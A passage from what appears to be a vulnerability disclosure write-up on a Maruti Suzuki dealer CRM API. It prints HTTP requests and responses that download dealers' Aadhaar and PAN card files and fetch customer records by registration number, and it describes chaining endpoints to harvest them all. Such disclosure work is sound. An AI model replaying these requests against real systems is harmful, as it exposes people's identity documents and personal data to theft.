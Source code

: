 ```
POST /api/awssthreebucket/downloadfileOnly HTTP/1.1 
Host: smr.dealercrm.co.in 
Cookie: ADRUM=s=1739634174590&r=https%3A%2F%2Fdealercrm.co.in%2Flogin 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) 
Gecko/20100101 Firefox/135.0 
Accept: */* 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate, br 
Referrer: https://smr.dealercrm.co.in/swagger/index.html 
Authorization: Bearer <TOKEN> 
 
{"urlKey":"5cba087f-cf37-4227-a9ba-9c78af896c6d.pdf"} 
```

Response:
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Connection: keep-alive 
%PDF-1.7 
4 0 obj 
<< 
/BitsPerComponent 8 
/ColorSpace /DeviceRGB 
/Filter /DCTDecode 
/Height 81 
/Length 4350 
/Subtype /Image 
/Type /XObject 
/Width 806 
>> 
stream 
ÿØÿà 
….. 
<TRUNCATED>
```
and the files were downloaded onto my system. It's not hard to chain the previous `dealerregionlistpending` call to fetch the url key and pass it in the `downloadfileonly` API and store all the Aadhar and PAN card for dealers in Maruti Suzuki. Leaking these IDs is considered a serious offense in India and can lead to Government scrutiny.


### Customer Data
Probably the one you were waiting for. Upon testing we realised that there were multiple ways to get same data and the only difference was the input parameter - mobile number, registration number or an internal id call svocId. To get customer data we hit the endpoint `/api/customerdetail/fetchcustomerdetailsnew `. 

```
POST /api/customerdetail/fetchcustomerdetailsnew HTTP/1.1 
Host: smr.dealercrm.co.in 
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.<TOKEN>
Connection: keep-alive 
 
{"regNum":"MH12THXXXX","is Customer":1} 

```
```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Date: Thu, 20 Feb 2025 01:04:50 GMT 
Server: Kestrel 
Connection: keep-alive 
Content-Length: 5295 
```